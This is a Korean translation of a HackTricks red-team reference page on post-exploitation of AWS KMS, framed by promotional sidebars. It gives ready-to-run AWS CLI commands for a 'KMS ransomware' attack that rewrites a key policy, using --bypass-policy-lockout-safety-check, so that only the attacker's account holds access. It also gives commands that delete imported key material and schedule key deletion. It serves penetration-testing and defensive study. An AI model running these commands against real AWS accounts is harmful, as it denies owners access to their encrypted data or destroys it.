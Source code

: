 # AWS - KMS 포스트 익스플로잇레이션

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**가 되는 **AWS 해킹**을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)**에 가입하거나 [텔레그램 그룹](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## KMS

자세한 정보는 확인하세요:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 정보 암호화/복호화

* **대칭** 키를 사용하여
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **비대칭** 키를 사용합니다:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS 랜섬웨어

KMS에 특권 액세스 권한이 있는 공격자는 키의 KMS 정책을 수정하고 **자신의 계정에 대한 액세스 권한을 부여**하여 합법적인 계정에 부여된 액세스를 제거할 수 있습니다.

그럼으로써, 합법적인 계정 사용자들은 해당 키로 암호화된 서비스의 어떤 정보에도 액세스할 수 없게 되어 계정에 쉽고 효과적인 랜섬웨어를 만들 수 있습니다.

{% hint style="warning" %}
**AWS 관리 키**는 이 공격의 영향을 받지 않음을 유의하십시오. 이 공격은 **고객 관리 키**에만 영향을 줍니다.

또한 웹 콘솔에서 이 옵션의 부재로 인해 이 공격은 CLI에서만 가능하게 됩니다. 이에 **`--bypass-policy-lockout-safety-check`** 매개변수를 사용해야 합니다.
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
해당 정책을 변경하여 외부 계정에만 액세스 권한을 부여한 후 이 외부 계정에서 새 정책을 설정하여 **액세스 권한을 원래 계정에 다시 부여하려고 하면 할 수 없습니다**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 일반 KMS 랜섬웨어

#### 글로벌 KMS 랜섬웨어

글로벌 KMS 랜섬웨어를 수행하는 또 다른 방법이 있습니다. 이를 위해 다음 단계를 수행해야 합니다:

* 공격자가 가져온 키 자료로 새 **키를 생성**합니다.
* 이전 버전으로 암호화된 이전 데이터를 새로운 것으로 **재암호화**합니다.
* **KMS 키를 삭제**합니다.
* 이제 원래 키 자료를 가진 공격자만 암호화된 데이터를 해독할 수 있습니다.

### 키 파기
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWS는 이제 **다른 계정에서의 이전 작업을 수행하는 것을 방지**합니다:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅이 되는 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왹**](https://peass.creator-spring.com)을 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소로 PR을 제출하세요.

</details>
